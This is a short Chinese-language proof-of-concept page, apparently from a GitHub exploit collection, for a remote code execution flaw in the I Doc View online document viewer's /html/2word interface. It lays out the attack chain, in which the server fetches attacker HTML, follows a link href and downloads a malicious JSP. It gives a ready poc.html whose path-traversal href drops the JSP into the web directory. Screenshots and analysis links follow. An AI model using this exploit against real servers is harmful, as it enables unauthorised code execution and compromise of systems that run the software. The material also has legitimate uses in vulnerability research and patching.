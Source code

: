 
## I Doc View任意文件上传漏洞
I DOC VIEW是一个在线的文档查看器，其中的/html/2word接口因为处理不当，导致可以远程读取任意文件，通过这个接口导致服务器下载恶意的JSP进行解析，从而RCE。

## POC构造
流程：携带恶意link[href]的html -> 远程获取  -> 解析出href -> 远程获取恶意文件

poc.html
```html

<!DOCTYPE html>
<html lang="en">
<head>
    <title>test</title>  
</head>
<body>
  <link href="/..\..\..\docview\poc.jsp">
</body>
</html>
```
然后构造 `..\..\..\docview\poc.jsp`  这个是文件
![image](https://github.com/wy876/POC/assets/139549762/736f7c0a-4f06-4170-805a-cf1580b69de3)

![image](https://github.com/wy876/POC/assets/139549762/73ab1c2a-ad91-40a3-96b0-0ca978fa9abe)

## 漏洞分析
```
https://mp.weixin.qq.com/s/lDqhDnZGXoRyp2IolQ2odg
https://mp.weixin.qq.com/s/mD4EcVmJ9QPmmMLh6KrZ0g
```

